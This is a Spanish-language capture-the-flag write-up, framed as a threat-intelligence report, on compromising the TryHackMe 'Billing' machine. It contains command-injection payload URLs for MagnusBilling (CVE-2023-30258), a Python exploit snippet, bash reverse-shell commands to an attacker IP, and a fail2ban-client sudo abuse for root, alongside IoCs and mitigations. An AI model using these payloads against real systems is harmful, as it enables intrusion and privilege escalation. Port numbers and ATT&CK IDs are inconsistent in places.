

<div align="center">
    <figure>
        
    </figure>
</div>

<div align="center">

# Basic Pentesting <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

  ## Video de resolución <!-- omit in toc -->

  <a href="https://youtu.be/0V5NrQ4D-vM">
    
    <br>
    Ver video en Youtube
  </a>
</div>

<br><br>

<div align="center">
  <a href="./assets/billing-cti.pdf">📄 Informe Oficial (PDF)</a>
</div>

<br><br>

## Informe de Inteligencia de Amenazas - Máquina "Billing" <!-- omit in toc -->

<br>

## Índice <!-- omit in toc -->
- [RESUMEN EJECUTIVO (Executive Summary)](#resumen-ejecutivo-executive-summary)
- [ENTORNO OBJETIVO](#entorno-objetivo)
- [FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance \& Enumeration)](#fase-de-reconocimiento-y-recolección-reconnaissance--enumeration)
  - [Escaneo de Red y Servicios Expuestos](#escaneo-de-red-y-servicios-expuestos)
- [Hallazgos de Enumeración Web y Parámetro vulnerable](#hallazgos-de-enumeración-web-y-parámetro-vulnerable)
- [CADENA DE ATAQUE (Kill Chain \& Technical Analysis)](#cadena-de-ataque-kill-chain--technical-analysis)
  - [Acceso Inicial (Initial Access)](#acceso-inicial-initial-access)
  - [Puntuación y Métrica CVSS v3.1](#puntuación-y-métrica-cvss-v31)
  - [Establecimiento de Persistencia y Movimiento Lateral](#establecimiento-de-persistencia-y-movimiento-lateral)
- [ESCALADA DE PRIVILEGIOS (Privilege Escalation)](#escalada-de-privilegios-privilege-escalation)
- [Controversia y Variantes del CVE-2025-45311](#controversia-y-variantes-del-cve-2025-45311)
- [INDICADORES DE COMPROMISO (IoCs)](#indicadores-de-compromiso-iocs)
  - [Indicadores de Red (Network IoCs)](#indicadores-de-red-network-iocs)
  - [Indicadores en Host (Host-Based IoCs)](#indicadores-en-host-host-based-iocs)
- [MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT\&CK)](#mapeo-de-tácticas-y-técnicas-mitre-attck)
- [RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)](#recomendaciones-y-mitigaciones-actionable-intelligence)
  - [Mitigaciones Inmediatas (Tácticas)](#mitigaciones-inmediatas-tácticas)
  - [Mitigaciones a Largo Plazo (Estratégicas)](#mitigaciones-a-largo-plazo-estratégicas)

<br>

### RESUMEN EJECUTIVO (Executive Summary)
* **Propósito**: Proporcionar una visión técnica y operativa sobre la instrusión realizada contra el objetivo en el entorno controlado, detallando las vulnerabilidades explotadas, la escalada de privilegios y las medidas para mitigar los riesgos.
* **Impacto Principal**: Exposición total de la infraestructura crítica mediante la combinación de vulnerabilidades conocidas en servicios web expuestos y desconfiguraciones a nivel de sistema operativo.
* **Vector de Entrada**: Explotación de RCE (Remote Code Execution) a través de un parámetro en la aplicación web desactualizada en el puerto 80/TCP.
* **Escalada de Privilegios**: Uso indebido del binario `fail2ban-client` por reglas desconfiguradas para la obtención de acceso como root.
* **Resumen**: Durante la auditoría/ataque de seguridad del host `Billing`, se identificó la existencia de un parámetro vulnerable en la ruta `/mbilling/lib/icepay/icepay.php`, previamente documentada en las versiones del software *MagnusBilling* 6 hasta la versión 7, corregida a partir del commit 7af21ed620 (inclusivo; a la fecha de Agosto 2026, los commits fueron eliminados de la plataforma Github), que consiste en la inyección de comandos (interpretada por una función `exec` mal ubicada en el script), mediante esta vulnerabilidad se logró obtener una credencial sensible, luego se establece una conexión saliente desde el objetivo hacia el equipo atacante (_reverse shell_) donde se establece la persistencia para posteriormente encontrar las desconfiguraciones en las reglas `sudoers` para el binario `/usr/bin/fail2ban-client` con el cual bajo sus acciones pertinentes se establece otra conexión saliente desde el objetivo hacia el equipo atacante, esta última con UID 0.

--- 

### ENTORNO OBJETIVO
* **Nombre de la Amenaza / Host**: TryHackMe - Billing
* **Dirección IP / Alcance**: `10.112.175.201`
* **Sistema Operativo**: Linux Debian GNU/Linux 12 (bookworm)
* **Objetivo Comercial/Función**: Servidor web de producción simulado

---

### FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance & Enumeration)

#### Escaneo de Red y Servicios Expuestos
Se ejecutó un escaneo completo de puertos mediante `Nmap` para determinar los servicios expuestos en la red:

```bash
nmap -p- --open -T4 -Pn -n -vvv -oN target.log 10.112.175.201
```
```bash
nmap -p22,80,3306,5038 -sV -sC -vvv -oN openPorts.log 10.112.175.201
```

| Puerto | Servicio | Versión | Estado |
|---|---|---|---|
| 22/TCP | ssh | OpenSSH 9.2p1 Debian 2+deb12u6 | Abierto |
| 80/TCP | http | Apache httpd 2.4.62 ((Debian)) | Abierto |
| 3306/TCP | mysql | MariaDB 10.3.23 | Abierto |
| 5038/TCP | asterisk | Asterisk Call Manager 2.10.6 | Abierto |

---

### Hallazgos de Enumeración Web y Parámetro vulnerable
* **Parámetro vulnerable en script de PHP expuesto**: Parámetro vulnerable en script de PHP expuesto: Tras hacer una enumeración de directorios se encontró la versión del Panel de administración web (MagnusBilling) en un archivo README.md que permitió realizar una búsqueda en la web superficial y encontrar vulnerabilidades relacionadas con este software y su versión.
 
    - `/mbilling/lib/icepay/icepay.php?democ=` → (HTTP 200) - Ruta al parámetro vulnerable.

* **Enumeración con `gobuster`**: Se utilizó la herramienta `gobuster` para enumerar los directorios contenidos en la ruta raíz (`/mbilling/`) del **Panel de Administración web MagnusBilling 7** en el puerto 80, logrando descubrir la ruta `/lib/icepay` donde se encontraba el archivo expuesto `icepay.php` con el parámetro vulnerable `democ`.

---

### CADENA DE ATAQUE (Kill Chain & Technical Analysis)

#### Acceso Inicial (Initial Access)
* **Táctica MITRE ATT&CK**: Exploit Public-Facing Application (T1190)
* **Vulnerabilidad Explotada**: Inyección de Comandos (Command Injection) CVE-2023-30258
* **Descripción del Exploit**:
  - Con la versión de *MagnusBilling* encontrada (versión 7), se realizó la búsqueda de algún CVE existente para esta versión (*CVE-2023-30258*) el cual indica que existe una vulnerabilidad de inyección de comandos donde los usuarios no autenticados pueden ejecutar código arbitrario del SO en la máquina anfitriona (host) con los privilegios del servidor web (asterisk).
* Prueba de Concepto (PoC):
  Para la verificación y explotación automatizada de la vulnerabilidad de inyección de comandos en el parámetro `democ` se utilizaron las siguientes fases de prueba:

  - Verificación manual (Payloads HTTP):

```
# Inyección 1
http://10.112.175.201/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep+5;

# Inyección 2
http://10.112.175.201/mbilling/lib/icepay/icepay.php?democ=injection;id+>+injection;
```
  Los comandos anteriores sirvieron para:  

  - **Inyección 1 - Blind Test**: Comprueba la existencia de la inyección de comandos tras una espera de 5 segundos en cargar de nuevo la página.
  - **Inyección 2 - Output Reflected**: Comprueba la ruta en el sistema donde se está almacenando el comando inyectado para posteriormente explotar la vulnerabilidad.

* Automatización mediante Exploit Customizado:
  Se desarrolló un script automatizado en Python que realiza solicitudes `GET` para enviar las cargas maliciosas (payloads) inyectados y leer la respuesta en la ruta correspondiente en tiempo real. *El código fuente del exploit está disponible en el siguiente enlace, se hace énfasis en los dos métodos que ejecutan el "payload"*

<br>

> [!TIP]
> 
> [Exploit CVE-2023-30258](./assets/cve-2023-30258.py)
> 

<br>

```py
# Solicitud GET, envío de Payload:
req.get(
        f'{url}/mbilling/lib/icepay/icepay.php',
        params={'democ': f'injection;{cmd} > injection;'},
        verify=False,
        timeout=5
        )

# Solicitud GET, lectura de respuesta en la ruta correspondiente:
FILE_INJECTION = "/mbilling/lib/icepay/injection"
# ...
res = req.get(
        f'{url}{FILE_INJECTION}',
        verify=False,
        timeout=5
      )
```


#### Puntuación y Métrica CVSS v3.1
* Puntuación Base: 9.3 (Crítico)
* Vector CVSS: `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N`

#### Establecimiento de Persistencia y Movimiento Lateral
* **Táctica MITRE ATT&CK**: Execution: Command and Scripting Interpreter: Unix Shell (T1059.004)
* **Descripción**: Una vez alcanzado el exploit *CVE-2023-30258*, se estableció una conexión saliente desde el objetivo hacia el equipo atacante mediante un socket TCP en el puerto 3333.
* **Payload Utilizado**:
```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.137.56/3334 0>&1'
```

---

### ESCALADA DE PRIVILEGIOS (Privilege Escalation)

* **Táctica MITRE ATT&CK**: Privilege Escalation (TA0004) / Abuse Elevation Control Mechanism: Bypass User Account Control (T1068.002)

* **Vector de Escalada**: Regla de `/etc/sudoers` con directiva `NOPASSWD` (*CWE-266*) sobre `/usr/bin/fail2ban-client`, combinada con la explotación de una vulnerabilidad en conjunto con el *CVE-2025-45311* en el propio binario.

* **Comando de Detección**:

```bash
# Listar las reglas de sudoers asignadas al usuario actual
sudo -l
# ...
(root) NOPASSWD: /usr/bin/fail2ban-client

# Reiniciar el servicio
sudo /usr/bin/fail2ban-client restart

# Incluir la acción a realizar en el baneo de IP
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionstart "/bin/bash -c '/bin/bash -i &> /dev/tcp/192.168.137.56/3334 0>&1'"

# Banear la IP local, de esa forma se ejecuta el payload malicioso
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

* **Explotación**: Una vez establecidas las reglas y acciones para el binario `/usr/bin/fail2ban-client`, se estableció una conexión saliente desde el objetivo hacia el equipo atacante mediante un socket TCP en el puerto 3334.

### Controversia y Variantes del CVE-2025-45311

El desarrollo de la _prueba de concepto_ (PoC) para la explotación del binario se basó en el registro *CVE-2025-45311*. Hay que destacar que dicho CVE está en "disputa" en la comunidad debido a los vectores de ataques que se identifican de dos maneras distintas:
 
  * **Vector por Inyección de Comandos Directa (Método ejecutado)**: Consiste en la manipulación directa de parámetros no sanitizados para forzar la ejecución de instrucciones (acciones para *Fail2ban*) en el sistema operativo a través de la terminal de comandos, este es el método documentado en la sección *5.4 Escalada de Privilegios*.
  * **Vector por Inclusión Local de Archivos de Configuración (Variante)**: Planteada por terceros de la comunidad, argumenta que la vulnerabilidad proviene de la manipulación o carga incorrecta de los archivos de configuración (locales) en la ruta `/etc/fail2ban`, los cuales requieren condiciones adicionales del entorno para la ejecución remota de código.

_**Nota de inteligencia**: Para efectos prácticos de este análisis, se confirma que el **Vector por Inyección de Comandos Directa** es plenamente funcional en el entorno auditado, proporciona un canal directo para la **Ejecución Remota de Comandos** (RCE) de forma determinante. Por otro lado no se ejecutó la variante del **Vector por Inclusión Local de Archivos de Configuración** debido a la ausencia de permisos de escritura sobre los archivos de configuración requeridos para la ejecución de instrucciones del binario._

---

### INDICADORES DE COMPROMISO (IoCs)

#### Indicadores de Red (Network IoCs)
* **IPs Maliciosas Relacionadas**: `192.168.137.56` (IP de la máquina atacante en la VPN)
* **URLs Afectadas**: `http://10.112.175.201/mbilling/lib/icepay/icepay.php`
* **User-Agents Inusuales e Intentos de Conexión**: Múltiples solicitudes hacia un parámetro vulnerable mediante inyección de comandos.

#### Indicadores en Host (Host-Based IoCs)

* **Rutas de Archivos Sensibles Accesibles**:
  - `/home/magnus/user.txt`
  - `/root/root.txt`
* **Nuevos Procesos Anómalos**: `/bin/bash` ejecutándose bajo el UID 0 derivado de las acciones maliciosas ejecutadas por el binario /`usr/bin/fail2ban-client`.

---

### MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT&CK)

| Fase de la Cadena | ID Técnica | Nombre de la Técnica |
|---|---|---|
| Reconnaissance | T1593 | Search Open Websites/Domains |
| Reconnaissance | T1593.003 | Search Open Websites/Domains: Code Repositories |
| Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell |
| Execution | T1203 | Exploitation for Client Execution |
| Privilege Escalation | T1548.002 | Abuse Elevation Control Mechanism: Bypass User Account Control |

---

### RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)

#### Mitigaciones Inmediatas (Tácticas)
* **Parchado de Software**: Gestionar la actualización del software MagnusBilling 7 a su última versión mantenida por los servidores oficiales para solventar la vulnerabilidad CVE-2023-30258. Por lo contrario actualizar a la versión de MagnusBilling 8, ambas tendrían que ir en conjunto con la actualización del servicio *Asterisk* a la versión correspondiente según la solicitud del software.
* **Remoción de Permisos**:

  - Evitar otogar acceso `sudo` amplio o sin restricciones sobre `fail2ban-client` a usuarios no privilegiados o de confianza limitada.
  - Si un usuario requiere gestionar *Fail2ban* mediante `sudo`, restringir las acciones a comandos específicos e inmutables dentro del archivo de configuración `sudoers` en lugar de otorgar wildcards (ALL).

* **Aislamiento y *Hardening* del Daemon**:

  - Definir comandos específicos mediante wrappers o scripts protegidos si se necesita automatización de ban/unban desde cuentas de servicios..

#### Mitigaciones a Largo Plazo (Estratégicas)

* Revisar regularmente las entradas de `sudoers` para detectar sobreconseción de privilegios (`ALL = (root) NOPASSWD: /usr/bin/fail2ban-client`)
* Asegurarse que los archivos de configuración de *Fail2ban* localizados en `/etc/fail2ban` no puedan ser modificados por usuarios sin privilegios elevados.

<br><br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>